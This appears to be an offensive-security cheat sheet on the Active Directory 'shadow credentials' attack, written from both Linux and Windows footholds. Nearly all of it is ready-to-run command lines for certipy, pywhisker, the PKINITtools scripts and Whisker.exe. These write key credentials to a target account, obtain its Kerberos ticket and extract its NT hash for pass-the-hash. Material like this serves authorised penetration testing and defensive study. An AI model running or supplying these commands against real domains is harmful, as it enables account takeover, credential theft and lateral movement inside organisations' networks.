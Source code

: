 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


## SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user>
 < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user>


## SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py


 pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add"

 < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache

 export KRB5CCNAME=<target user>.ccache

 getnthash.py -key <key obtanined from previous command> <domain>/<target user>



# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


## SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
   ./Whisker.exe add /target:<target user>

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
   ./Whisker.exe list /target:<target user>

 You can also remove targets from msDS-KeyCredentialLink
   ./Whisker.exe remove /target:<target user>


